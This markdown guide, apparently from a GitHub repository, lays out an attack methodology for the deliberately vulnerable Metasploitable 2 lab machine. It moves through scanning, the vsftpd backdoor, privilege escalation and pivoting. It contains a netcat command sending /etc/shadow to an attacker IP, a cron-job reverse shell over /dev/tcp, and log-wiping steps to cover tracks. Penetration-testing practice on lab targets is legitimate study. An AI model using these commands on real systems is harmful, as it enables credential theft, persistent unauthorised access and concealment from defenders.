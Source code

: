 # Metasploitable 2

This document outlines an advanced hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap`, `netcat`, and `whois` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

- Use `nikto` or `dirb` for web vulnerability scanning.
- OS fingerprinting can be done with tools like `p0f` or `xprobe`.

### Service Enumeration:

Enumerate services such as:

- FTP (vsftpd) on port 21
- SSH (OpenSSH) on port 22
- Telnet on port 23
- SMTP on port 25
- HTTP (Apache) on port 80
- MySQL on port 3306
- RPCBind/NFS on port 111

Use tools like `enum4linux` for SMB enumeration or `hydra` for brute force attacks.

## 2. Vulnerability Assessment

Perform a vulnerability scan with `OpenVAS` or `Nessus` after mapping services.

Example vulnerability: **vsftpd v2.3.4 backdoor**.

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

Manually exploit the backdoor using `netcat`:

```
nc <target IP> 6200
```

### Custom Buffer Overflow Exploit:

For advanced exploitation, analyze services like Apache Tomcat (port 8080) or MySQL for buffer overflow vulnerabilities. Use tools like `gdb` or `pwndbg` to craft a custom exploit.

## 4. Privilege Escalation

Once a low-privilege shell is obtained, escalate privileges.

### Kernel Exploits:

Look for kernel vulnerabilities like **dirty cow** or `udev` exploits.

### Search for SUID Binaries:

```
find / -perm -u=s -type f 2>/dev/null
```

### Misconfigurations:

Check for misconfigured services (e.g., NFS, sudo permissions).

## 5. Pivoting and Lateral Movement

After gaining initial access, pivot within the network using SSH pivoting or port forwarding.

### SSH Pivoting Example:

```
ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>
```

### Metasploit Route Setup (Post-Exploitation):

```
run autoroute -s <target IP>
```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

### Data Exfiltration Using Netcat:

```
nc -lvp 4444 > file.txt
cat /etc/shadow | nc <attacker IP> 4444
```

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```
echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab
```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.
